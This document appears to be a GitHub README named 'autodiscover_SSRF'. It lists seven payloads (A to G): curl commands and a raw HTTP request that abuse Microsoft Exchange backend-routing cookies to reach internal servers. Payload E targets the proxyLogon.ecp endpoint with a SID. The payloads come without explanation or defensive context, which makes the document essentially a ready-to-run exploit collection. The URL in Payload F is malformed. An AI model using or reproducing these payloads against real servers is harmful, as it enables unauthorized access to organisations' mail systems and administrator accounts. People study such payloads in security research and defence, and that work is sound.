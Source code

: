 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://externaldomain.local/ecp/favicon.ico'


Payload B

curl -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    -b $'X-AnonResource-Backend=www.bbc.co.uk/#~1; X-AnonResource=true' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload C

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalserver.domain.local/autodiscover/autodiscover.xml#~1941962753' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>\x0d\x0a' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload D

curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Sk1dd13-02928910918' \
    -b $'X-AnonResource=true; X-AnonResource-Backend=localhost/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' \
    $'https://externaldomain.local/owa/auth/x.js'

Payload E

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36' -H $'Content-Type: text/xml' -H $'Content-Length: 92' -H $'Connection: close' \
    -b $'X-BEResource=danger@sserver.internal.local:444/ecp/proxyLogon.ecp?a=~1942062522' \
    --data-binary $'<r at=\"Negotiate\"\x0d\x0aln=\"jane\"><s>S-1-5-21-1544262530-3153604567-1803344855-1148</s></r>\x0d\x0a\x0d\x0a' \
    $'https://server.external.local/ecp/z.js'
    
Payload F

curl -i -s -k -X $'POST' \
    -H $'Cache-Control: no-cache' -H $'Connection: Keep-Alive' -H $'Pragma: no-cache' -H $'Content-Type: text/xml' -H $'User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.13127; Pro)' -H $'Client-Request-Id: {11527508-55EA-4FFE-922F-91EC54F79180}' -H $'X-User-Identity: Administrator@externaldomain.local' -H $'X-MS-Negotiate: Server' -H $'X-Accept: application/json' -H $'Depth: 0' -H $'Content-Length: 426' -H $'Host: localhost' -H $'Authorization: Negotiate {NEGOTIATE PACKET NLTM}' \
    --data-binary $'<s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\"><s:Header><RequestServerVersion Version=\"V2018_01_08\" xmlns=\"http://schemas.microsoft.com/exchange/services/2006/types\"/><MailboxCulture xmlns=\"http://schemas.microsoft.com/exchange/services/2006/types\">en-US</MailboxCulture></s:Header><s:Body><GetUnifiedGroupsSettings xmlns=\"http://schemas.microsoft.com/exchange/services/2006/messages\"/></s:Body></s:Envelope>' \
    $'https://pwnstar.pwndefend.comhttps://externaldomain.local/EWS/Exchange.asmx'

Payload G

```RPC_IN_DATA /rpc/rpcproxy.dll HTTP/1.1
Host: pwnstar.pwndefend.com
User-Agent: MSRPC
Accept: application/rpc
Accept-Encoding: gzip, deflate
Authorization: NTLM TlRMTVNTUAABAAAABQKIoAAAAAAAAAAAAAAAAAAAAAA=
Content-Length: 0
Connection: close

```
